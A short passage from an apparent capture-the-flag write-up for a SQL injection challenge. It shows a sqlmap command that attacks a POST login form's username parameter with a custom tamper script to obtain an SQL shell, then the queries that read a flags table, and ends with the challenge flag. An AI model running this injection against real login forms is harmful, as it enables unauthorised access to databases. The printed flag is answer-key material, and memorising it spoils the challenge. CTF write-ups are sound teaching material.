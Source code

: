 > I know there is a better way to write this script, but when I was solving this challenge, this was the first thing that came to mind.


Now, we will use `sqlmap` on the target:
```bash
sqlmap -u "<URL>" --data="username=admin&password=1234" --method=POST --dbms="mariadb" --tamper=custom_tamper.py -p username --sql-shell
```

Once you have the SQL shell, you can run these commands to get the flag:
```bash
sql-shell> use prepared_db;
sql-shell> select * from flags;
```

Then you will get the flag:
```
uoftctf{r3m3mb3r_70_c173_y0ur_50urc35_1n_5ql_f0rm47}
```